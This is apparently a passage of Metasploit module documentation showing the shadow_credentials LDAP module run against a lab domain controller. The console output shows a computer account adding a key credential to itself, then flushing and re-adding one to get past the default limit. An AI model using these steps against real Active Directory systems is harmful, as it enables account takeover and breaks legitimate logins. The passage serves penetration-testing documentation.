 ### Window Server 2022 Domain Controller, Computer account targeting itself

In the following example the user `MSF\DESKTOP-H4VEQQHQ$` targets itself. No special permissions are required for this, as computers have some ability to modify their own value by default.

```msf
msf6 auxiliary(admin/ldap/shadow_credentials) > run rhost=20.92.148.129 username=DESKTOP-H971T3AH$ target_user=DESKTOP-H971T3AH$ password=JJ2xSxvop2KERcJu8JMEmzv5sswNZBlV action=add
[*] Running module against 20.92.148.129

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 20.92.148.129:389 Getting root DSE
[+] 20.92.148.129:389 Discovered base DN: DC=msf,DC=local
[*] Certificate stored at: /home/user/.msf4/loot/20240404122017_default_20.92.148.129_windows.ad.cs_502988.pfx
[+] Successfully updated the msDS-KeyCredentialLink attribute; certificate with device ID ff946afc-a94a-f9c5-7229-861bb9ee4709
[*] Auxiliary module execution completed
```

Note, however, that attempting to add a second credential will fail under these circumstances:

```msf
msf6 auxiliary(admin/ldap/shadow_credentials) > run rhost=20.92.148.129 username=DESKTOP-H971T3AH$ target_user=DESKTOP-H971T3AH$ password=JJ2xSxvop2KERcJu8JMEmzv5sswNZBlV action=add
[*] Running module against 20.92.148.129

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 20.92.148.129:389 Getting root DSE
[+] 20.92.148.129:389 Discovered base DN: DC=msf,DC=local
[!] By default, computer accounts can only update their key credentials if no value already exists. If there is already a value present, you can remove it, and add your own, but any users relying on the existing credentials will not be able to authenticate until you replace the existing value(s).
[-] Failed to update the msDS-KeyCredentialLink attribute.
[-] Auxiliary aborted due to failure: no-access: The LDAP operation failed due to insufficient access rights.
[*] Auxiliary module execution completed
```

This is because computer accounts only have permission to modify their own `msDS-KeyCredentialLink` property if it does not already have a value.
It is possible to circumvent this by first entirely removing the existing value, and then adding a new one. Note that this will break authentication
for any legitimate user relying on the existing value.

```msf
msf6 auxiliary(admin/ldap/shadow_credentials) > set action flush
action => flush
msf6 auxiliary(admin/ldap/shadow_credentials) > run rhost=20.92.148.129 username=DESKTOP-H971T3AH$ target_user=DESKTOP-H971T3AH$ password=JJ2xSxvop2KERcJu8JMEmzv5sswNZBlV
[*] Running module against 20.92.148.129

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 20.92.148.129:389 Getting root DSE
[+] 20.92.148.129:389 Discovered base DN: DC=msf,DC=local
[+] Successfully deleted the msDS-KeyCredentialLink attribute.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/shadow_credentials) > set action add
action => add
msf6 auxiliary(admin/ldap/shadow_credentials) > run rhost=20.92.148.129 username=DESKTOP-H971T3AH$ target_user=DESKTOP-H971T3AH$ password=JJ2xSxvop2KERcJu8JMEmzv5sswNZBlV
[*] Running module against 20.92.148.129

```